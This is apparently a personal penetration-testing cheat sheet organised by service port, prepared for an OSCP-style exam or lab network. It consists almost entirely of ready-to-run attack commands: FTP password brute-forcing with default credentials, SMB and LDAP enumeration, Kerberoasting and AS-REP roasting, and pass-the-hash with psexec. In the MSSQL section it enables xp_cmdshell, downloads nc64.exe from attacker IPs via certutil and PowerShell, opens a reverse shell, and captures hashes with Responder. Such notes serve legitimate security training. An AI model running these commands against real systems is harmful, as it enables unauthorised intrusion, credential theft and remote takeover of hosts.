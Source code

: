 ## Enumeration Checklist

\<set your variables\>
`target=<br>`
`user=<br>`
`pass=<br>`
`ip=<br>`
domain=

# 21 FTP

`hydra -l <user list> -P <password list> ftp://$ip`

common creds patterns

admin/admin
root/root
password/password
username/username


# 53 DNS

`dig @$ip version.bind CHAOS TXT`
`dig axfr @$ip $domain`     
`dnsenum $domain`

# 135 RCP

`rpcclient -U '' -N $ip`
`rpcclient -U '$user%$pass' $ip` 

`> enumdomusers      #check the users on the DC`
`> queryuser <username>  #query the details of the user`
`> querydispinfo`

`nmblookup -A $ip`

# 445 SMB

<Without Pass>

`enum4linux -a $ip`

`impacket-lookupsid $domain/$user@$domain -no-pass`

`smbmap  -H 10.10.10.100 --depth 10 -r   #List Shares`

`smbclient -N -L //[ip]`

`smbclient //[ip]/[share] -N   #Enumerate Files`


<With Pass>
	
`lookupsid.py  $domain$user:$pass@$domain`

`lookupsid.py  #domain/$user:$pass@$ip | grep SidTypeUser | cut -d " " -f 2 | cut -d '\' -f 2     #This oneliner will create a file with all the domain users`

`psexec.py -hashes  :<ntlm hash>    $user@$ip`

`smbmap -H  hokkaido-aerospace.com -u info -p info --depth 10 -r`

`smbclient //$ip/C$ -U '$user%$pass' -c 'dir'`

`netexec smb [host/ip] -u [user] -p [pass] --shares`

`netexec smb [host/ip] -u guest -p '' --shares`

`smbclient //[ip]/[share] -U [username] [password]`

`netexec smb -u [user] -p [pass] -M spider_plus`

`smbclient.py '[domain]/[user]:[pass]@[ip/host] -k -no-pass - Kerberos auth`

`manspider.py --threads 256 [IP/CIDR] -u [username] -p [pass] [options]`


# 88 Kerberoas

`nmap --script=krb5-enum-users --script-args='userdb=/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt' -p88 $ip`

`kerbrute  -dc $ip -domain $domain -users <user file>   #check if the uses are valid`

`impacket-GetNPUsers $domain/$user -dc-ip $ip   #AS Rep; hashcat module 18200`

`impacket-GetUserSPNs -request -dc-ip $ip $domain/$user  #Kerberoasting; Kerberoasting module 13100`

`kerbrute -domain #domain -dc $ip -users /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt`

`kerbrute -domain $domain -dc $ip  -users /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -t 100`


# 389 LDAP

<Without Pass>

`ldapsearch -H ldap://$ip -x -b "DC=oscp,DC=exam" 

`ldapsearch -x -H ldap://$ip -s base namingcontexts`

`impacket-lookupsid '$domain/guest'@$domain -no-pass`

<With Pass>

`lookupsid.py  $domain/$user:$pass@$domain`
`ldapsearch -x -H ldap://$ip -D '$user' -w '$pass' -s base namingcontexts`

`bloodhound-python -d $domain -u $user -p $pass -c all -ns $ip`
`neo4j console                #config file; /usr/share/neo4j/conf`
`./Bloodhound  --no-sandbox`


# 1433 MSSQL

`impacket-mssqlclient sql_svc:Dolphin1@10.10.138.148 -windows-auth  #Windows login`
`impacket-mssqlclient sql_svc:Dolphin1@10.10.138.148   #user login`

`SELECT @@version   #Current MSSQL Version`
`SELECT DB_NAME()   #Current Database`
`SELECT name FROM sys.databases;  #show DBs`	
`enum_db            #show DBs`

`select * from   <DB name>.INFORMATION_SCHEMA.TABLES  #show tables`

#cmd command	

`EXEC sp_configure 'show advanced options', 1;`
`RECONFIGURE;`
`EXEC sp_configure 'xp_cmdshell', 1;`
`RECONFIGURE;`
`EXEC xp_cmdshell ' whoami /priv '`

`xp_cmdshell "certutil -urlcache -f http://192.168.45.247/nc64.exe nc64.exe"  #If cmd command dose not work, upgrade to poershell`
`xp_cmdshell "powershell -Command "(New-Object Net.WebClient).DownloadFile(''http://10.10.149.147:1235/nc64.exe'',''C:\Windows\Temp\nc64.exe'')"`
`xp_cmdshell "/windows/temp/nc64.exe 10.10.149.147 1234 -e powershell"`
	
hash capture

`xp_dirtree \\192.168.1.210\shared`
`responder -I tun0   #When the SQL service is running under a machine account, the authentication process returns the machine account hash, which is not crackable (e.g., $DC)`

`enum_impersonate  #impersonate`
`EXECUTE AS LOGIN = 'username to impersonate'  #impersonate`
`SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'  #impersonate`


<MSSQL Cheetsheet>

https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
https://kwcsec.gitbook.io/the-red-team-handbook/infrastructure/sql/ms-sql/privilege-escalation
https://www.bordergate.co.uk/attacking-mssql/


# 3389 RDP

`xfreerdp /u:$user /p:$pass /v:$ip /cert:ignore +clipboard`

# 5985 WINRM

`evil-winrm -i $ip -u $user -p $pass`
